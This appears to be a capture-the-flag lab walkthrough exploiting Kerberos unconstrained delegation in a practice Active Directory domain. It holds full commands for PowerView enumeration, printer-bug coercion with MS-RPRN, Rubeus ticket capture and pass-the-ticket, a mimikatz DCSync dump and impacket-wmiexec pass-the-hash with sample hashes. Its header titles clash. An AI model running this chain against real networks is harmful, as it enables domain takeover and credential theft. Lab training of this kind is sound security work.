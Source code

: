 ```yaml
---
date: 2025-03-17
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.9 – Active Directory Certificate Services"
tags: ['impacket', 'kerberos', 'mimikatz', 'powershell', 'privilege escalation', 'python', 'rce', 'windows']

description: "Kerberos Ep. 9 – Unconstraine - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep. 9 – Unconstrained Delegation


![image1](../resources/7f2555936ca4415aba773fa7bcc11a88.png)

![image2](../resources/5336fb7734cf44009120496934609a5d.png)

Use following command in powershell.exe to dot source the script first:

```bash
. .\Powerview_dev.ps1

```
**<u>Dot sourcing</u>**

The dot sourcing feature lets you run a script in the current scope instead of in the script scope. When you run a script that is dot sourced, the commands in the script run as though you had typed them at the command prompt

- On workstation-01 run Powerview:
```bash
. .\Powerview_dev.ps1

```

![image3](../resources/8ebb39d0918648d3b86f734d76c7d861.png)

- Enumerating for unconstrained delegation:
```bash
Get-DomainComputer -Unconstrained -Properties dnshostname

```

![image4](../resources/e7519f27495043109e63411a9c3ad29b.png)


![image5](../resources/bfb5d5b0d2a440a481f774ec27bfa45f.png)

<u>Exploiting unconstrained delegation:</u>
Now that you have access to a host with an unconstrained delegation set, you can force a privileged user to connect to the system. To do this, you'll need to use the MS-RPRN tool (aka spoolsample). This tool will force a DC account to connect to our hostname; in this case, Workstation-02

- Open an elevated command prompt and monitor for TGT **(Open in CMD not PS)**:
```bash
Rubeus.exe monitor /interval:1

```

![image6](../resources/bfc9a81bb20d4de08eeaa2e918811b97.png)

- To force a connection to our compromised host Workstation-02, you can use the MS-RPRN tool by running it on an elevated PowerShell prompt:

```bash
.\MS-RPRN.exe

.\MS-RPRN.exe \\DC01.krbtown.local \\Workstation-02.krbtown.local

```

![image7](../resources/680b6e010f0c4884b4948f09b0450e55.png)


![image8](../resources/ec4ff9197f54477684e68afcef95ed57.png)


![image9](../resources/53eb6570d2ea485591806990b9bd70e5.png)

- Since the host has an unconstrained delegation feature enabled, you can obtain a valid TGT to impersonate a DC account

- Copy the Base64 ticket and paste into Kali (ticket.txt):
**Remove empty lines and white spaces from the Base64 ticket before passing it through Rubeus:**

```bash
python3 -c 'f=open("ticket.txt").read();import re;print(re.sub(r"[\n\t\s]*", "", f))'

```
- Copy the output and paste into the command (on Windows):

(Convert from Base64 and saves it in **DC.kirbi**)

```powershell
[IO.File]::WriteAllBytes("C:\Users\m.oh\Desktop\Tools\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket"))

```

![image10](../resources/e1433203f58b43c893bef66332ce4b21.png)

- Load the ticket into memory:
```bash
.\Rubeus.exe ptt /ticket:DC.kirbi

```

![image11](../resources/6c20fb63571042a6a69ed2f1ec95cecb.png)

- Check that it has been loaded in successfully:
```bash
klist

```

![image12](../resources/aa9591288001480688632c98b75ddc84.png)


![image13](../resources/aba65a0a932c4f859628f57061753344.png)


![image14](../resources/71f94ac080a24844b1622f1374fe491c.png)

- Open mimikatz:
```bash
lsadump::dcsync /user:krbtown\a.belridge

```

![image15](../resources/68b77d027e6d4eb9bd58e5dd8f0a56e1.png)

- Use wmiexec to gain access to the DC:
```bash
impacket-wmiexec [DOMAIN]/[USERNAME]@[TARGET] -hashes [LM-HASH]:[NT-HASH] 

impacket-wmiexec krbtown/a.belridge@10.102.110.227 -hashes 5bc77749d18b5076452c01b71eda19d0:a3352be00f83a3a7f86a8825e49d5011

```

![image16](../resources/654fc3178ff04959a0716fbc18c27eff.png)


![image17](../resources/1e43f17df0a24df894fe4b7ac6ddfd50.png)


![image18](../resources/e2146712bf5d408abb70a7acc7c1da8f.png)
